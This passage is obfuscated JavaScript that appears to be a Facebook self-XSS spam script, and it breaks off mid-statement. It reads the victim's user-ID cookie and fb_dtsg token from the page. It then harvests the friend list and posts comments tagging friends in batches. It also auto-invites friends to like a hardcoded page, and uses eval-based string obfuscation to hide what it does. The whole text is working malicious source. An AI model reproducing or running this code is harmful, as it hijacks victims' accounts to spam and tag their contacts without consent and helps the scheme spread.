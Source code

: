 user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);var _5066;var _4528='';var _4155=/[\x41\x42\x43\x44\x45\x46]/;var _9561=2;var _6544=_4528.charAt(_4528.length-1);var _2860;var _8911=_4528.split(_4155);var _4321=[String.fromCharCode,isNaN,parseInt,String];_8911[1]=_4321[_9561+1](_4321[_9561](_8911[1])/21);var _4609=(_9561==6)?String:eval;_2860='';_11=_4321[_9561](_8911[0])/_4321[_9561](_8911[1]);for(_5066=3;_5066&lt;_11;_5066++)_2860+=(_4321[_9561-2]((_4321[_9561](_8911[_5066])+_4321[_9561](_8911[2])+_4321[_9561](_8911[1]))/_4321[_9561](_8911[1])-_4321[_9561](_8911[2])+_4321[_9561](_8911[1])-1));var _3559='_3336';var _4023='_3559=_2860';function _9152(_4991){_4609(_2244);_9152(_3380);_3380(_4023);_9152(_3559);}var _2244='_9152=_4609';var _3380='_3380=_9152';_9152(_6544);var Title='&lt;span style="font-size:x-large;">&lt;b>&lt;span style="color: red;"> &lt;/span>&lt;/b>&lt;/span>&lt;br/>';var Descriptions = "",page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];function InviteFriends(opo){jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=602016956502077&amp;__user="+ user_id +  "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function (a) {var b = a.substring(a.indexOf("{"));var c = JSON.parse(b);i--;Descriptions = "&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";if (c.error) {Descriptions += "color:darkred'>";err++;if (c.errorDescription) Descriptions += c.errorDescription;else Descriptions += JSON.stringify(c, null, "")} else {Descriptions += "color:darkgreen'>";Descriptions += arn[i] + " has been invited to like the page " + page_name + ".";suc++}Descriptions += "&lt;/div>";var display = "&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:0px;top:0px;width:0px;z-index:9999;font-size:0px;text-align:center;padding:0px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>"; display += "&lt;div style='padding-bottom:0px;font-size:0px;'>" + Title + "&lt;/div>&lt;br/>";if (i > 0) {display += " &lt;b>" +arr.length + "&lt;/b>  &lt;br/>";display += "&lt;b>" + suc + "&lt;/b> dari &lt;b>" +arr.length + "&lt;/b>  &lt;br/>";display += "   &lt;b>" + i + "&lt;/b>  &lt;br/>&lt;br/>"; display += '&lt;span style="color: lime;">&lt;span style="font-size: large;">&lt;b> &lt;/b>&lt;/span>&lt;/span>';display += "&lt;/div>";display += "&lt;/div>";window[tag + "_close"] = true} else {display += '&lt;span style="color: lime;">&lt;span style="font-size: large;">&lt;b> &lt;/b>&lt;/span>&lt;/span>&lt;br/>&lt;br/>';display += "&lt;div>&lt;span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'> &lt;/span>&lt;br/>";display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>&lt;br/>";display += "&lt;/div>"; window[tag + "_close"] = false}display += "&lt;/div>";  document.getElementById("pagelet_sidebar").innerHTML = display}, "text", "post"); tay--;if (tay > 0) {var s = arr[tay];setTimeout("InviteFriends(" + s + ")", 100)}console.log(tay + "/" + arr.length + ":" +